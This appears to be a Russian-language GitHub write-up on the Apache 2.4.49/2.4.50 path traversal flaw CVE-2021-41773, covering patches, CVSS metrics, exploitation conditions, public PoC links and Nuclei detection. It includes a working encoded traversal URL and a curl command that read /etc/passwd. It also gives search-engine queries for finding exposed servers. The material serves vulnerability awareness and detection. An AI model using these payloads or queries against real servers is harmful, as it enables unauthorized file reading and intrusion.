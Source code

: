 # **CVE-2021-41773**

---

## **Описание**

Возникает в сервере Apache версии **2.4.49** и **2.4.50**. Причиной появления уязвимости является изменение, внесенное в нормализацию пути. Уязвимость позволяет:

- **Прочитать файлы на сервере.**
- В случае неправильной конфигурации — **выполнять удаленное выполнение кода** на сервере.

Уязвимость возникает из-за ошибки в обработке URL-запросов с использованием специальной последовательности (`../`). Эта ошибка позволяет **обойти ограничения**, наложенные на доступ к файловой системе. Если сервер настроен для использования файлов `.htaccess`, уязвимость позволяет получать доступ к файлам **за пределами корневого каталога веб-сервера**.

---

## **Патчи**

- Уязвимость была **криво исправлена** в обновлении **2.4.50** (выпущено **04/10/2021**), из-за чего она также затронула эту версию.
- Полностью устранена в версии **2.4.51** (выпущено **07/10/2021**).

---

## **Метрики**

- **Вектор:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Рейтинг:** **7.5** (Высокий)
- **Уязвимые версии:**
  - `cpe:2.3:a:apache:http_server:2.4.49`
  - `cpe:2.3:a:apache:http_server:2.4.50`
- Версии **до 2.4.49** и **после 2.4.50** — не затронуты.

---

## **Эксплуатация**

### **Условия для успешной эксплуатации**

1. Сервер использует Apache HTTP Server версии **2.4.49** или **2.4.50**.
2. Конфигурация сервера включает директиву: 
    ```apache
    <Directory "/path/to/webroot">
        Require all granted
    </Directory>
    ```
3. Сервер позволяет доступ к CGI-скриптам (например, `/cgi-bin/`).

### **Возможности**

- **Чтение файлов**, находящихся на внутреннем сервере (например, `/etc/passwd`).
- **Удаленное выполнение кода**, если можно загрузить вредоносный файл на сервер.

### **Процесс эксплуатации**

1. Использование URL с кодированием для обхода защиты:

http://ip:port/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

2. С помощью инструмента `curl`:

curl -s --path-as-is "http://iptarget:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

3. Если сервер уязвим, возвращается содержимое файла `/etc/passwd`.

---

## **Материалы**

- [CVE-2021-41773 (cve.mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [NVD CVE-2021-41773 (nist.gov)](https://nvd.nist.gov/vuln/detail/cve-2021-41773)
- [Qualys Blog Post](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)

---

## **Публичные эксплойты**

- [lorddemon PoC](https://github.com/lorddemon/CVE-2021-41773-PoC/blob/main/CVE-2021-41773.py)
- [walnutsecurity PoC](https://github.com/walnutsecurity/cve-2021-41773/blob/main/cve-2021-41773.py)
- [iilegacyyii PoC](https://github.com/iilegacyyii/PoC-CVE-2021-41773/blob/main/CVE-2021-41773.py)

## Распространенность

| Платформа | Запрос                                                      | Количество по миру | Количество по РФ |
|-----------|-------------------------------------------------------------|---------------------|------------------|
| Shodan    | `Apache/2.4.49 OR Apache/2.4.50`                            | 2,449               | 81               |
| Netlas    | `(http.headers.server: "Apache/2.4.49" OR http.headers.server: "Apache/2.4.50")` | 6,309               | 140              |
| Fofa      | `header="Apache/2.4.49" \|\| header="Apache/2.4.50"`        | 12,447              | 540              |

## Обнаружение с помощью Nuclei

1. Поднятие стенда:

![image](https://github.com/user-attachments/assets/82c14b86-2f99-45f4-8827-733398fb3ea6)

2. Сканирование:

![image](https://github.com/user-attachments/assets/ebff9f86-dc1c-4067-af44-cc18dcc2660e)


